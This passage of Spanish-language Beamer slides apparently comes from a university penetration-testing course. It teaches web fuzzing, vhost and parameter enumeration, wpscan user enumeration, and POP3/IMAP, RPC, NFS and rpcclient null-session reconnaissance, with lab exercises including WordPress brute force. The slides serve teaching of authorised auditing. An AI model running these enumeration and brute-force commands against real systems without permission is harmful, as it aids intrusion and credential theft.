
\includegraphics[width=\linewidth,height=0.80\textheight,keepaspectratio]{img/sl028_1.png}
\end{column}
\end{columns}
\end{frame}

\begin{frame}[allowframebreaks]{HTTP}
\small
  \begin{itemize}
  \item \href{https://github.com/urbanadventurer/WhatWeb}{Whatweb} / \href{https://github.com/rverton/webanalyze}{webanalyze} / \href{https://www.wappalyzer.com/}{wappalyzer}
  \item Consiste en una herramienta que realiza escasas peticiones a la dirección URL que le indiquemos y se centrara en analizar el código HTML y cabeceras HTTP para identificar toda la información posible tanto del servidor como tecnología utilizada
  \end{itemize}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl029_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{HTTP)}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl030_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{HTTP}
\small
Análisis de rutas, directorios y subdirectorios

\begin{itemize}
  \item Durante la fase de fingerprint web, es muy importante conocer la estructura de la aplicación web que se esté auditando. Para ello, sería necesario utilizar principalmente spider y crawlers. Entre las herramientas más destacadas para realizar esta acción se encuentran:
    \begin{itemize}
  \item Spider más destacado: \href{https://portswigger.net/burp}{BurpSuite}
  \item Crawlers destacados: \href{https://github.com/xmendez/wfuzz}{wfuzz} / \href{https://github.com/ffuf/ffuf}{ffuf} / \href{https://dirb.sourceforge.net/}{dirb} / \href{https://owasp.org/www-project-dirbuster/}{dirbuster} / \href{https://github.com/jaeles-project/gospider}{gospider} / \href{https://github.com/TheRook/subbrute}{subbrute}
  \item Diccionarios para fuzzing (y fuerza bruta): \href{https://github.com/danielmiessler/SecLists}{Seclists} (sudo apt-get install seclists), rockyou (/usr/share/wordlists/rockyou)
  \item Ejemplo:
    \begin{itemize}
  \item wfuzz -c -w /usr/share/wordlists/dirb/common.txt \\
  -{}-hc 404 https://ejemplo.com/FUZZ
  \item dirbuster -u http://192.168.1.100/ \\
          -l /usr/share/wordlists/dirb/common.txt
    \end{itemize}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{HTTP}
\footnotesize
Virtual hosting

\begin{itemize}
  \item La enumeración de virtual hosts (vhosts) se realiza enviando peticiones HTTP a una dirección IP con diferentes valores en la cabecera Host usando diccionarios de palabras. Si la respuesta del servidor (en tamaño, código de estado o palabras) varía frente a un dominio falso, se descubre un sitio oculto.
  \item Herramientas:
    \begin{itemize}
  \item \href{https://github.com/OJ/gobuster}{gobuster}: \cmd{gobuster vhost -u URL -w diccionario}
  \item \cmd{wfuzz -c -z file,/path/to/wordlist.txt\\ -H \textquotedbl{}Host: FUZZ.something.com\textquotedbl{} -H \textquotedbl{}User-Agent: PENTEST\textquotedbl{}\\ -{}-hc 404,403 \$URL}
  \item \cmd{ffuf: ffuf -u http://<IP-objetivo> -w /ruta/diccionario.txt \\-H \textquotedbl{}Host: FUZZ.<dominio>\textquotedbl{}}
  \end{itemize}
  \end{itemize}
\centering

\includegraphics[width=0.60\textwidth,height=0.29\textheight,keepaspectratio]{img/sl032_1.jpg}
\end{frame}

\begin{frame}{HTTP}
\small
Extensiones de ficheros
\begin{itemize}
  \item Para identificar archivos ocultos, rutas de configuración o recursos accesibles podemos usar un diccionario y forzar peticiones al servidor de tal manera que los recursos accesibles al servidor, éste responderá un 200 OK y para aquellos que no existan un 404 NOT FOUND
  \item La enumeración de ficheros en una aplicación web consiste en intentar descubrir archivos accesibles desde el servidor web que no aparecen enlazados desde la aplicación, utilizando una lista de nombres y extensiones habituales.
  \item Ejemplos:
    \begin{itemize}
    \item \cmd{wfuzz -c -L -t 400 -{}-hc 404 -w dicc -w extensiones\\ url/FUZZ.FUZ2Z}
    \item \cmd{gobuster dir -u http://192.168.1.100/\\
  -w /usr/share/wordlists/dirb/common.txt -x php,txt,bak}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{HTTP}
\small
Inyección de parámetros
\begin{itemize}
  \item La técnica se llama enumeración/fuzzing de parámetros HTTP y consiste en descubrir qué nombres de parámetros acepta o procesa una aplicación web, aunque esos parámetros no aparezcan explícitamente en los enlaces de la aplicación.
  \item Por ejemplo, tienes: http://metasploitable2/index.php y no sabes si acepta parámetros como:
  \begin{itemize}
  \item ?id=...
\item ?page=...
\item ?file=...
\item ?user=...
     \end{itemize}

     \item Ejemplos:

    \begin{itemize}
    \item \cmd{wfuzz -w parametros.txt \
"http://metasploitable2/index.php?FUZZ=hola"}

    \end{itemize}
    \item No basta con que el servidor responda 200 OK, porque podría devolver exactamente la misma página independientemente del parámetro.
    \item Normalmente se comprueba el tamaño de la respuesta y el tamaño que difiere del resto indica que ese parámetro lo interpreta la aplicación web. 
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl033_1.jpg}
\end{center}
Utilizando herramientas de fuzzing web como: dirb, wfuzz, etc:
  \begin{itemize}
    \item Encuentra subdominios tipo: \href{http://metasploitable2/FUZZ}{http://metasploitable2/FUZZ}
    \item Encuentra subdominios tipo: \href{http://metasploitable2/FUZZ.uclm.es}{http://metasploitable2/FUZZ.uclm.es}
    \item Encuentra ficheros alojados como: \href{http://metasploitable2/FUZZ.FUZ2Z}{http://metasploitable2/FUZZ.FUZ2Z}
    \item Encuentra virtual hosting tales como: \textquotedbl{}Host: FUZZ.something.com\textquotedbl{}
    \item Encuentra parámetros inyectables tales como:\\
    \href{http://metasploitable2/index.php?FUZZ=holamundo}{http://metasploitable2/index.php?FUZZ=holamundo}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
  
\includegraphics[width=0.55\textwidth,height=0.45\textheight,keepaspectratio]{img/sl034_1.jpg}
\end{center}
Resuelve la máquina \href{https://pruebasaluuclm-my.sharepoint.com/:u:/g/personal/joseluis_martinez_uclm_es/EVb5j7OAu1NEkMnXm89aAhkBD7e3mjEiyJ3K3i_ppvkWNw?e=15h8rf}{Death Note} de Vulnhub que necesitas hacer fuzzing de:  
    \begin{itemize}
    \item Rutas y directorios ocultos
    \item Archivos sensibles
    \item Formularios tipo login
    \item Subdominios virtuales (VHOST)
    \end{itemize}
\vspace{2mm}

\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl035_1.jpg}
\end{center}
  \begin{itemize}
  \item Resuelve esta room sobre \href{https://tryhackme.com/room/ffuf}{ffuf} de TryHackMe. 
  \end{itemize}

\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl038_1.jpg}
\end{center}
Resuelve este módulo de Hack The Box sobre \href{https://academy.hackthebox.com/module/details/54}{ffuf}
\end{frame}

\begin{frame}[allowframebreaks]{CMS}
\small
  \begin{itemize}
  \item En la actualidad, gran cantidad de aplicaciones web hacen uso de algún CMS (Sistema de Gestión de Contenidos) como puede ser Drupal o Wordpress, que permiten gestionar de manera más fácil todos los contenidos generados en la aplicación web.
  \item Estos CMS pueden contener vulnerabilidades, fallos de configuración, etc. por lo que es necesario verificar también la información que se puede obtener de ellos. Para esta acción nos pueden ayudar herramientas como:
  \item Ejemplos:
    \begin{itemize}
  \item \href{https://blindelephant.sourceforge.net/}{Blind Elephant}
  \item \href{https://github.com/wpscanteam/wpscan}{Wpscan}
  \item \href{https://github.com/OWASP/joomscan}{Joomscan}
  \item \href{https://github.com/SamJoan/droopescan}{Droopescan}
  \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{CMS}
\small
  \begin{itemize}
  \item Ejemplo de la herramienta wpscan: wpscan -{}-url http://objetivo/
  \item Esta herramientas permite encontrar:
    \begin{itemize}
  \item WordPress version
 \item Plugins
 \item Themes
 \item Usuarios
 \item Configuraciones
 \item Vulnerabilidades conocidas
  \end{itemize}
\item Ejemplos:
\begin{itemize}
\item \cmd{wpscan -{}-url http://objetivo/ -{}-enumerate plugins}
\item \cmd{wpscan -{}-url http://objetivo/ -{}-enumerate themes}
\item \cmd{wpscan -{}-url http://objetivo/ -{}-enumerate u}
    \end{itemize}
    \end{itemize}

\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.50\textwidth,height=0.33\textheight,keepaspectratio]{img/sl038_1.jpg}
\end{center}
Resuelve la máquina \href{https://pruebasaluuclm-my.sharepoint.com/:u:/g/personal/joseluis_martinez_uclm_es/EZIw9lBc075Mjt91TlsL8icBFhFabmE37n_19L311C_Q2w?e=sRVHOF}{lemonsqueezy}. Para ello necesitarás:
\begin{itemize}
\item Enumeración subdominios
\item virtual hosting
\item  enumeración de usuarios de un wordpress
\item  fuerza bruta en un wordpress con wpscan para leak de credenciales
\item Intrusión mediante explotación de un phpmyadmin
    \end{itemize}
\end{frame}

% ====================================================================
% 110/995 y 143/993 --- POP3 / IMAP
% ====================================================================

\begin{frame}[allowframebreaks]{IMAP / POP3}
\small
  \begin{itemize}
  \item Funcionalidad: IMAP y POP3 son protocolos utilizados para acceder al correo electrónico desde un cliente de correo. 
  \item Puertos: Correo entrante --- POP3 110/995 $\cdot$ IMAP 143/993
  \item Vulnerabilidad: En una auditoría, la enumeración busca identificar qué servicio está expuesto, su versión, mecanismos de autenticación, cifrado TLS y, con credenciales autorizadas, qué buzones y mensajes son accesibles.
  \item Explotación:
    \begin{itemize}  
  \item Banner y capacidades: nc <IP> 110
  \item \cmd{openssl s\_client -connect <IP>:993 \# sobre TLS}
  \item \cmd{nmap -{}-script imap-capabilities,pop3-capabilities -p110,143,993,995 <IP>}
  \item Con credenciales: leer correo (USER/PASS en POP3; a LOGIN user pass en IMAP) y buscar credenciales/tokens en los mensajes.
   \end{itemize}

  \item Hardening: forzar TLS (993/995), deshabilitar texto claro, MFA.
 
  \end{itemize}
\end{frame}

% ====================================================================
% 111/TCP --- RPC (rpcbind) y rusers
% ====================================================================

\begin{frame}[allowframebreaks]{RPC (Remote Procedure Call)}
\small
  \begin{itemize}
  \item Funcionalidad: Ejecución remota en aplicaciones cliente / servidor.
  \item Puertos: 111/TCP, 135/TCP
  \item Vulnerabilidad: La enumeración RPC consiste en consultar los servicios RPC que un sistema expone y obtener información sobre los programas, versiones, protocolos y puertos asociados.
  \item Herramienta \href{https://man7.org/linux/man-pages/man8/rpcinfo.8.html}{rpcinfo}. rpcinfo sirve para enumerar servicios RPC (Remote Procedure Call) que están registrados en un servidor. Es especialmente útil en reconocimiento de sistemas Unix/Linux y servicios como NFS.
  \item Explotación:
    \begin{itemize}
    \item \cmd{rpcinfo -p 192.168.1.10} (Esto permite saber qué servicios están disponibles aunque no aparezcan como servicios TCP convencionales conocidos.)
    \item Si aparece: 2049/tcp open  nfs
    \item \cmd{rpcinfo -t 192.168.1.10 100003 3} (Comprobar si un programa RPC concreto está disponible)
    \item \cmd{showmount -e 192.168.1.10}
    \item Export list for 192.168.1.10
    \item \cmd{sudo mount -t nfs 192.168.1.10:/backup /mnt/nfs}
    \item ls -la /mnt/nfs
    \item Se puede complementar con la herramienta nmap:
          \begin{itemize}  
    \item \cmd{nmap -sSUC -p111 IP}
    \item \cmd{nmap -sV -p 111,2049 192.168.1.10}
    \item \cmd{nmap -p 111,2049 -{}-script=nfs-showmount,nfs-ls,nfs-statfs 192.168.1.10}
          \end{itemize}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{RPC}
\small
  \begin{itemize}
    \item rusers es una utilidad clásica de Unix/Linux asociada a los servicios R services. Su función es consultar qué usuarios están conectados actualmente a sistemas de la red, siempre que el servicio correspondiente esté disponible. 
    \item rusers pertenece al ecosistema de los R services (rusersd, rsh, rlogin, etc.), que se considera legacy y que normalmente debería estar deshabilitado en redes modernas.
    %\item Puede revelar usuarios activos, nombres de máquinas y sesiones, información útil para reconocimiento
  \item Explotación:
    \begin{itemize}

  \item \cmd{rusers 192.168.1.10}
  \item \cmd{rusers -a} (consultar los sistemas que respondan al servicio de usuarios remotos)
  \item No tienes ninguna contraseña, pero ya conoces qué sistemas existen; qué cuentas están siendo utilizadas;
qué cuentas pueden tener funciones privilegiadas; posibles nombres de cuentas para correlacionar con otras fuentes de información.
  \end{itemize}

  \end{itemize}
\end{frame}

\begin{frame}{RPC}
\begin{columns}[c]
\begin{column}{0.34\textwidth}\centering

\includegraphics[width=\linewidth,height=0.50\textheight,keepaspectratio]{img/sl052_1.jpg}
\end{column}
\begin{column}{0.62\textwidth}\centering

\includegraphics[width=\linewidth,height=0.50\textheight,keepaspectratio]{img/sl052_2.png}
\end{column}
\end{columns}
\vspace{2mm}

\centering

\includegraphics[width=0.72\textwidth,height=0.22\textheight,keepaspectratio]{img/sl052_3.png}
\end{frame}

\begin{frame}{RPC}
\footnotesize
  \begin{itemize}
  \item \href{https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html}{rpcclient} es una herramienta de Samba que permite interactuar con MS-RPC (Microsoft Remote Procedure Call) a través de SMB. En pentesting se utiliza principalmente para enumerar sistemas Windows y dominios/servidores Samba.
  \item rpcclient puede permitir enumerar: usuarios, grupos, información del dominio, SID, políticas de contraseña, información del servidor, recursos compartidos, relaciones entre dominios e información de cuentas.
  \item Ejemplo de explotación:
    \begin{itemize}
    \item \cmd{rpcclient -U \textquotedbl{}\textquotedbl{} -N 192.168.1.10}\\
      (\cmd{-U \textquotedbl{}\textquotedbl{}} indica usuario vacío y \cmd{-N} evita solicitar contraseña; depende de que el servidor permita acceso anónimo / null session)
    \item \cmd{rpcclient \$> enumdomusers} (una vez dentro)
    \item \cmd{rpcclient \$> queryuser 0x3e8}
    \item \cmd{rpcclient \$> enumdomgroups} (enumerar grupos)
    \item \cmd{rpcclient \$> querydominfo} (información sobre el dominio, usuarios, grupos, etc.)
    \end{itemize}
    \item rusers busca información sobre usuarios/sesiones en sistemas Unix mediante R services, mientras que rpcclient consulta interfaces MS-RPC sobre SMB en entornos Windows/Samba
  \end{itemize}
\end{frame}

\begin{frame}{RPC}
\centering

\includegraphics[width=0.42\textwidth,height=0.68\textheight,keepaspectratio]{img/sl053_1.png}\hfill

\includegraphics[width=0.54\textwidth,height=0.68\textheight,keepaspectratio]{img/sl053_2.png}
\end{frame}

\begin{frame}{RPC}
\centering
